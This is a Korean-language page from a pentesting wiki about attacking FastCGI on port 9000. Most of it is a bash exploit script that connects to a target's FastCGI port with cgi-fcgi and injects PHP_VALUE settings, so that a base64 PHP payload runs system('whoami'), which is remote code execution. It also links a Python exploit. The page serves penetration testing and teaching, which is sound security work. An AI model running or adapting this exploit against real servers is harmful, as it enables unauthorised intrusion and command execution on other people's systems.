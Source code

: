 # 9000 Pentesting FastCGI

{{#include ../banners/hacktricks-training.md}}

## 기본 정보

**FastCGI가 무엇인지 배우고 싶다면** 다음 페이지를 확인하세요:


{{#ref}}
pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass/disable_functions-bypass-php-fpm-fastcgi.md
{{#endref}}

기본적으로 **FastCGI**는 **포트** **9000**에서 실행되며 nmap에 의해 인식되지 않습니다. **일반적으로** FastCGI는 **localhost**에서만 수신 대기합니다.

## RCE

FastCGI가 임의의 코드를 실행하도록 만드는 것은 매우 쉽습니다:
```bash
#!/bin/bash

PAYLOAD="<?php echo '<!--'; system('whoami'); echo '-->';"
FILENAMES="/var/www/public/index.php" # Exisiting file path

HOST=$1
B64=$(echo "$PAYLOAD"|base64)

for FN in $FILENAMES; do
OUTPUT=$(mktemp)
env -i \
PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain\;base64,$B64'" \
SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \
cgi-fcgi -bind -connect $HOST:9000 &> $OUTPUT

cat $OUTPUT
done
```
또는 다음 파이썬 스크립트를 사용할 수도 있습니다: [https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75](https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75)

{{#include ../banners/hacktricks-training.md}}
